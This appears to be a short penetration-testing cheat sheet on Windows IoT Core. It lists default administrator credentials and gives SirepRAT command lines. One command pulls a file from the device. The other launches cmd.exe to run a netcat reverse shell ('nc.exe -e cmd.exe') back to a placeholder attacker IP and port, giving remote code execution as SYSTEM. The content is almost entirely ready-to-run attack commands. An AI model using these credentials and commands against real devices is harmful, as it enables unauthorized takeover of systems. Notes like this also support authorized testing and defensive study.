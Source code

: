 # windows iot core

## Default Creds

```
Administrator:p@ssw0rd
administrator:p@ssw0rd
```

## RCE as system

```bash
https://github.com/SafeBreach-Labs/SirepRAT

python3 SirepRAT.py IP GetFileFromDevice --remote_path "C:\Windows\System32\drivers\etc\hosts" --v
python3 SirepRAT.py IP LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c nc.exe -e C:\Windows\System32\cmd.exe IP PORT "
```
